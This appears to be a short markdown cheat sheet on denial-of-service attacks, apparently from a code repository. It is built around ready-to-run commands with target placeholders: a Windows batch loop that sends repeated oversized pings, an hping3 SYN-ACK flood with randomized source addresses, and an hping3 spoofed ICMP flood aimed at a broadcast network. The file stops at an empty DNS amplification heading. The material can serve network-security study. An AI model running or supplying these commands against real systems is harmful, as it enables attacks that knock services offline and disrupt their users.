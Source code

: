 # Denial of Service

## Ping of Death

windows - https://fossbytes.com/perform-ping-of-death-attack-using-cmd-just-for-learning/
- create .bat with:

	  :loop
	  ping <target_address> -l 65500 -w 1 -n 1
	  goto :loop

## SYN-ACK ping flood

	hping3 -SA --flood --rand-source -p <target_port> <target_address>
		
## SMURF attack
- attacker sends sustained ICMP Echo packets to the broadcast address of the amplifying network, with a forged source address
- all hosts in the amplifying network will recieve Echo packets and respond to forged source
-	  hping3 --icmp -flood -c 1000 --spoof <target_address> <amplifyingnetwork_address>

## DNS Amplification Attack